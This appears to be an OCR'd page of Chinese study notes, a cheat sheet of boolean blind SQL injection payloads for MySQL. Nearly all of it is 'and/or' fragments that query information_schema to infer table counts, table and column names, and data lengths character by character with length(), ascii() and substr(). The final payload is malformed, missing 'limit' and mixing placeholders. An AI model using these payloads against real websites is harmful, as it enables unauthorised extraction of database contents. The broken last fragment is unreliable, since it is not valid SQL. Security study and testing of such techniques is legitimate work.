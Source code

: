 ##### 判断数据库的表长度与表名

###### 获取表的总数

```sql
and/or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database())=2
//获取表的总数，这是函数加在要查询的字段名之外的写法，语句结构更加清晰
```
###### 判断表名长度

```sql
and/or length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=n 
//判断第一行表名的长度，这是多重括号写法，也可将函数加到select后要查询的字段名外
```

###### 判断表名字符

```sql
and/or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),m,1))=n 
//截取第一行表名的第m个字符串转换为ascii值判断具体为多少，这是多重括号写法，也可将函数加到select后要查询的字段名外
```

##### 判断数据库的字段名长度与字段名称

###### 获取表的列的总数

```sql
and/or (select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='表名' and TABLE_SCHEMA=database())=n
//8返回true说明有8个列,这是函数加在要查询的字段名之外的写法，语句结构更加清晰
```

###### 判断列名长度

```sql
and/or length((select column_name from information_schema.columns where table_name='表名' limit 0,1))=n 
//判断表名中字段名的长度，注意多重括号写法，也可将函数加到select后要查询的字段名外
```

###### 判断列名字符

```sql
and/or ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 0,1),m,1))=n 
//截取表中字段的第m字符串转换为ascii值，判断具体值，这是多重括号写法，也可将函数加到select后要查询的字段名外
```

##### 判断字段的内容长度与内容字符串

###### 判断查询指定数据结果长度

```sql
and/or length((select 列名 from users 表名 0,1))=n
//判断字符串内容长度，这是多重括号写法，也可将函数加到select后要查询的字段名外
```

